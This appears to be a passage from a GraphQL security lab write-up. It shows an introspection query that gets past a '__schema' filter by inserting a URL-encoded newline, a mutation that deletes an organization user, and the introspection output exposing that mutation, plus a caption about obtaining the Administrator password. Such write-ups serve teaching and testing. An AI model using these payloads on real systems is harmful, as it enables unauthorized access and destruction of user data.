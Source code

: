 - Getting the password of `Administrator`

![image](https://github.com/user-attachments/assets/a0254b75-2eb2-4435-aaaf-ce10b7187778)

---------------

### Inline query for introspection

----------------

- Introspection Query to bypass `__schema` filter with `__schema%0A`-:

```
{__schema%0A{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name+description+locations+args{...InputValue}}}}fragment+FullType+on+__Type{kind+name+description+fields(includeDeprecated:true){name+description+args{...InputValue}type{...TypeRef}isDeprecated+deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name+description+isDeprecated+deprecationReason}possibleTypes{...TypeRef}}fragment+InputValue+on+__InputValue{name+description+type{...TypeRef}defaultValue}fragment+TypeRef+on+__Type{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name}}}}}}}}
```

- Using mutation to delete users-:

```graphql
mutation {
    deleteOrganizationUser(input: {
        id: 3
    }) {
        user {
            id
            username
    }}
}
```

- Introspection result-:

```json
       {
          "kind": "OBJECT",
          "name": "mutation",
          "description": null,
          "fields": [
            {
              "name": "deleteOrganizationUser",
              "description": null,
              "args": [
                {
                  "name": "input",
                  "description": null,
                  "type": {
                    "kind": "INPUT_OBJECT",
                    "name": "DeleteOrganizationUserInput",
                    "ofType": null
                  },
                  "defaultValue": null
                }
              ],
              "type": {
                "kind": "OBJECT",
                "name": "DeleteOrganizationUserResponse",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
```